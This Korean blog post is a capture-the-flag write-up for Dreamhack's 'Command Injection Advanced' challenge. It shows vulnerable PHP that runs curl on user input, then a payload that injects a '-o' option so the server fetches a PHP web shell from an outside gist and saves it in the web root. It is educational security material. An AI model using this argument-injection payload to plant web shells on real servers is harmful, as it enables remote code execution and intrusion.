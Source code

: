 ```yaml
---
title: (11) Dreamhack Command Injection Advanced 문제 풀이
date: 2024-01-14 +09:00
categories:
  - 웹해킹
tags:
  - [웹해킹, 드림핵]
---
```

{% raw %}
## 문제 풀이
![](https://kyuyeop.github.io/assets/img/post/11/1.png)
들어오면 이런 사이트가 뜹니다.  
  
일단 index.php 코드부터 보겠습니다.
```php
<html>
    <head></head>
    <link rel="stylesheet" href="/static/bulma.min.css" />
    <body>
        <div class="container card">
        <div class="card-content">
        <h1 class="title">Online Curl Request</h1>
    <?php
        if(isset($_GET['url'])){
            $url = $_GET['url'];
            if(strpos($url, 'http') !== 0 ){
                die('http only !');
            }else{
                $result = shell_exec('curl '. escapeshellcmd($_GET['url']));
                $cache_file = './cache/'.md5($url);
                file_put_contents($cache_file, $result);
                echo "<p>cache file: <a href='{$cache_file}'>{$cache_file}</a></p>";
                echo '<pre>'. htmlentities($result) .'</pre>';
                return;
            }
        }else{
        ?>
            <form>
                <div class="field">
                    <label class="label">URL</label>
                    <input class="input" type="text" placeholder="url" name="url" required>
                </div>
                <div class="control">
                    <input class="button is-success" type="submit" value="submit">
                </div>
            </form>
        <?php
        }
    ?>
        </div>
        </div>
    </body>
</html>
```
curl 요청을 보내고 결과를 cache 파일로 저장해준다고 합니다. url은 http로 시작해야 하고요.  
  
php에, 외부 파일을 다운 받을 수 있는 조건? 저는 바로 웹쉘이 떠올랐습니다. 일단 php 웹쉘 부터 구해야 겠죠?  
구글에 php webshell 만 검색하면 아주 많이 나올텐데 저는 맨 위에 있는 [웹쉘](https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/50008b4501ccb7f804a61bc2e1a3d1df1cb403c4/easy-simple-php-webshell.php)을 사용했습니다.
  
저는 curl을 자주 사용해서 익숙한데, 안써보신 분들을 위해 알려드리자면,
curl은 다양한 프로토콜로 데이터를 송수신하기 위한 프로그램으로 당연히 http(s) 같은 웹 프로토콜도 지원합니다. 이를 활용해 파일을 다운받을 수도 있습니다. curl에는 몇가지 옵션이 있는데, 그중 하나인 `-o`옵션은 요청 결과를 원하는 위치에 저장이 가능합니다.  
  
딱히 필터링이 없으므로 아무거나 적을 수 있습니다.
```
https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/50008b4501ccb7f804a61bc2e1a3d1df1cb403c4/easy-simple-php-webshell.php -o /var/www/html/cache/shell.php
```
저는 다음과 같이 적었습니다.
![](https://kyuyeop.github.io/assets/img/post/11/2.png)
우리는 cache의 shell.php로 접속하면 되므로 cache file은 필요없고 그냥 `/cache/shell.php`로 접속합니다.
![](https://kyuyeop.github.io/assets/img/post/11/3.png)
웹쉘 화면이 잘 나오는군요. 이젠 flag를 찾기만 하면 됩니다. 찾아보면 그냥 /에 있습니다.
![](https://kyuyeop.github.io/assets/img/post/11/4.png)
저 flag 파일을 실행해주면
![](https://kyuyeop.github.io/assets/img/post/11/5.png)
flag가 나옵니다.
{% endraw %}